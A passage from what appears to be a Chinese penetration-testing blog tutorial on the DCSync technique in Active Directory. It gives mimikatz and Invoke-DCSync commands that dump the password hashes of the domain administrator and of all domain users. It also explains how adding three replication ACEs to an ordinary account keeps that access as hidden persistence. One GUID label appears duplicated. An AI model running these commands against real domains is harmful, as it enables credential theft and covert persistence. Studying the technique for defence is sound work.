导出域内administrator帐户的hash：

```
mimikatz.exe "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

#### 2.powershell实现

https://gist.github.com/monoxgas/9d238accd969550136db

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

导出域内administrator帐户的hash：

```
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

**注：**

获得了域内用户的hash后，进一步利用可参考之前的文章：

[《域渗透——Pass The Hash的实现》](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/)

[《渗透技巧——Pass the Hash with Remote Desktop》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Pass-the-Hash-with-Remote-Desktop/)

《域渗透——Pass The Hash & Pass The Key》





## 0x03 利用DCSync在域内维持权限的方法
---

**利用条件：**

获得以下任一用户的权限：

- Domain Admins组内的用户
- Enterprise Admins组内的用户

**利用原理：**

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

该用户即可获得利用DCSync导出域内所有用户hash的权限

**实现代码：**

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270
